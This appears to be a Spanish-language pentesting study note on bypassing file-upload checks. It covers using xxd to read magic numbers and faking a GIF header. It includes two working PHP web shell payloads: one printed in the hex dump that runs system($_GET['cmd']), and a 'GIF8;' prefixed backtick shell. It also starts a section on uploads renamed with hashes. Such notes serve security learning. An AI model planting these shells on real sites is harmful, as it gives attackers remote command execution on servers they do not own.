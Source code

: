 ```shell
# Para ver el tipo de archivo 
file {file_name}
# Para ver el archivo en decimal 
xxd image.php
# OutPut
# 00000000: 3c3f 7068 7020 0a09 7379 7374 656d 2824  <?php ..system($
# 00000010: 5f47 4554 5b27 636d 6427 5d29 3b20 0a3f  _GET['cmd']); .?
# 00000020: 3e0a 

# Otro ejemplo: 
zip {new_file.zip} {file_to_zip}
# Ver magic numbers
xxd {file.zip}
```

### De esta manera, haciendo uso de una de las [[⚒ Herramientas ⚒]], la cual es **xxd**, podemos ver el archivo en cuestion en hexadecimal y a raiz de los primeros 4 pares de números, por ejemplo en el caso de php **3c 3f 70 68** o en el caso de un comprimido **50 4b 03 04**, podríamos buscar estos en diversas [páginas](https://en.wikipedia.org/wiki/List_of_file_signatures).

### En base a esto, podemos entender, que muchas veces las webs utilizan múltiples sanitizaciones, entre ellas la lectura de los magic numbers, por lo que podriamos intentar vurlar las mismas engañando estos magic numbers.

```php
GIF8;

<?=`$_GET[0]`?>
```

### De esta manera, estaríamos engañando a los magic numbers, ya que los archivos **.gif** suelen tener la cadena **GIF8;** lo que da siempre un magic number de GIF para la subida de archivos. (Esto se puede aplicar con diversas extenciones, como html, etc.)

- # Caso HASHEO: 

### En este caso, independientemente de si existen o no sanitizaciones, los desarrolladores aplican hasheos a los nombres de los recursos que subimos para evitar que, en un repositorio dado, independientemente de si contamos con **directory listing** o no, no podamos acceder al contenido subido, por ejemplo, si en la ruta **/uploads** sabemos que se almacenan nuestros archivos subidos, pero no tenemos capacidad de directory listing, por lo que no podemos ver lo que subimos, tal vez, a la hora de subir nuestro archivo se este aplicando un hasheo con **md5** u otros, para intentar evitar un acceso al recurso subido. 

